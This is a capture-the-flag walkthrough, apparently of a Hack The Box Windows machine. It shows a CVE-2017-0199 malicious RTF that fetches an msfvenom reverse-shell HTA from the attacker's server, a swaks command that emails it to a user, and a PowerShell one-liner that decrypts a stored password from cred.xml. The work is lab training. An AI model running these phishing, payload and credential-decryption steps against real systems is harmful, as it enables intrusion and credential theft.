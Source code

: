 Using an exploit from github we can craft a rtf in which we are going to include a url that will fetch hta file and it will execute on the system to give us a reverse shell for that we need to genrate a hta file using `msfvenom`

```bash
sfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=2222 -f hta-psh 
> abc.hta
```

```bash
python cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://10.1
0.14.17/abc.hta
```

<img src="https://i.imgur.com/LKuZ1Bi.png"/>

Now to send the mail with the attachment , I was having difficulty to figure out to send it , on goolge every mentioned doing it through telnet by specifiying content-type and other headers but I found a neat tool called `sawks`

http://www.jetmore.org/john/code/swaks/

So running this to send an email to `nico` and starting the python server to hosts the hta file

<img src="https://i.imgur.com/EskSS7h.png"/>

<img src="https://i.imgur.com/TnR0IJ7.png"/>


```bash
swaks --server 10.10.10.77 -f arz@htb.reel -t nico@megbank.com --attach Invoice.rtf
```

<img src="https://i.imgur.com/ZfUBP2n.png"/>

In `nico`'s directory in `Desktop` folder we can see a `cred.xml` file, reading that file it seems that there's an encrpyted password for `Tom` 

<img src="https://i.imgur.com/WS6w7eR.png"/>

## Privilege Escalation (Tom)

Now here I ran into an issue to decrpyt this we need powershell and when I ran powershell the reverse shell would just hang

<img src="https://i.imgur.com/DEyOAMi.png"/>

So we can just pass arguemnts to powershell and decrypt the password for user `Tom`

```powershell
powershell.exe -c "$file = Import-Clixml -Path cred.xml;$file.GetNetworkCredential().Password"
```

<img src="https://i.imgur.com/Fi7QfFr.png"/>

Now that we have credentials for tom user we can use ssh to login
